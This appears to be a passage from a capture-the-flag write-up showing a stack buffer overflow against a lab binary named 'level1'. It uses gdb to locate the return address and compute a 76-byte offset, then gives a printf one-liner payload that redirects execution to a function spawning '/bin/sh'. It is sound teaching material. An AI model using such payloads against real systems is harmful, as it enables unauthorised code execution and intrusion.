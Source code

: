 ### Buffer overflow

Let's continue exploring the addresses with `gdb`. To find out where exactly is the `return` address, we will put a break point just before the return instruction `(0x08048496)` and then examine the memory around the stack pointer `esp`.

```bash
(gdb) break *0x08048496 # This is at return
(gdb) run
Hello BUFFER, friend! :)
(gdb) x/wx $esp
0xbffff65c:	0xb7e454d3
```

The return address is typically the value that indicates the next instruction to be executed after the `main()` function finishes. In this case, it's likely the address `0xb7e454d3`.

We can confirm this by overwritting it's address and continuing the execution of the program.

```bash
(gdb) x/4wx $esp
0xbffff65c:	0xb7e454d3	0x00000001	0xbffff6f4	0xbffff6fc
(gdb) set {int}($esp) = 0x08048444
(gdb) x/4wx $esp
0xbffff65c:	0x08048444	0x00000001	0xbffff6f4	0xbffff6fc
(gdb) continue
Continuing.
Good... Wait what?
$ whoami
level1
```
Now that we know where the next instruction is loaded. We need to find out where the buffer is saved. To do so, we can look up the other registers at the same `breakpoint` at `0x08048496`.

We find at the EAX registry, the contents of the buffer.

```bash
(gdb) x/s $eax
0xbffff610:	 "Hello BUFFER, friend! :)"
```

The offset between the `buffer` address and the next instruction (`return`) address can be calculated with `0xbffff65c` - `0xbffff610` = **76**.

With this offset we can inject the `run()` function to te *next instruction address*.
Something like what we did in `gdb`: `set {int}($ebp + 4) = 0x08048444`.

```bash
$ printf "%-76s\x44\x84\x04\x08\n" | tr ' ' '\0' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Now we have to remember that the `run()` function executes a shell like this:
```bash
system("/bin/sh")
```
But because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
